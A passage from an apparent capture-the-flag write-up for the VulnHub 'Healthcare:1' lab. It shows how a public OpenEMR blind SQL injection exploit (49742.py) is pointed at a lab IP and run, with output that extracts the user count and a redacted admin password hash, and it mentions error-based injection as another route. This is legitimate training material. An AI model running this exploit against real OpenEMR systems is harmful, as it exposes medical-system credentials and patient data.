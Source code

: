 **Change the IP address of the URL:**
```python
# edit url to point to your openemr instance
url = "http://10.69.96.76/openemr/interface/login/validateUser.php?u="
```

**Run the exploit to extract username and password hash:**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|18:26:42(HKT)]
└> python3 49742.py

   ____                   ________  _______     __ __   ___ ____
  / __ \____  ___  ____  / ____/  |/  / __ \   / // /  <  // __ \
 / / / / __ \/ _ \/ __ \/ __/ / /|_/ / /_/ /  / // /_  / // / / /
/ /_/ / /_/ /  __/ / / / /___/ /  / / _, _/  /__  __/ / // /_/ /
\____/ .___/\___/_/ /_/_____/_/  /_/_/ |_|     /_/ (_)_(_)____/
    /_/
    ____  ___           __   _____ ____    __    _
   / __ )/ (_)___  ____/ /  / ___// __ \  / /   (_)
  / /_/ / / / __ \/ __  /   \__ \/ / / / / /   / /
 / /_/ / / / / / / /_/ /   ___/ / /_/ / / /___/ /
/_____/_/_/_/ /_/\__,_/   /____/\___\_\/_____/_/   exploit by @ikuamike

[+] Finding number of users...
[+] Found number of users: 2
[+] Extracting username and password hash...
admin:[...]
```

However, I think the SQL injection vulnerability can be exploited in a different way. Instead of exploiting **time-based SQL injection**, we can also **exploit error-based SQL injection**:

![](https://github.com/siunam321/CTF-Writeups/blob/main/VulnHub/Healthcare:1/images/Pasted%20image%2020230821182446.png)

